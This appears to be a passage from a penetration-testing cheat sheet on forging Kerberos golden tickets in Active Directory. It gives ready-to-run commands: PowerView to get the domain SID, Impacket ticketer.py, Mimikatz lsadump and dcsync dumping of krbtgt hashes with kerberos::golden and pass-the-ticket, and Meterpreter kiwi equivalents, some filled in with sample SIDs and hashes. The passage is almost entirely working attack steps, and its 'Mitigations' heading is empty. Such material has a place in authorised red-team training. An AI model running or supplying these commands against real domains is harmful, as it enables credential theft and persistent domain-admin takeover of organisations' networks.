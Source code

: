 ```powershell
Import-Module .\PowerView.ps1
Get-DomainSID
```
* Using **Ticketer**

```powershell
python3 ticketer.py -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-1234567890-2345678901-3456789012 \
  -domain corp.local Administrator

python3 ticketer.py -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-1234567890-2345678901-3456789012 \
  -domain corp.local \
  -user-id 500 \
  -extra-sid S-1-5-21-1234567890-2345678901-3456789012-512 \
  Administrator
```

* Using **Mimikatz**

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

* Using **Meterpreter**

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```

Golden tickets with "Enterprise admins" SID can be used cross forest boundaries.

**Mitigations**:
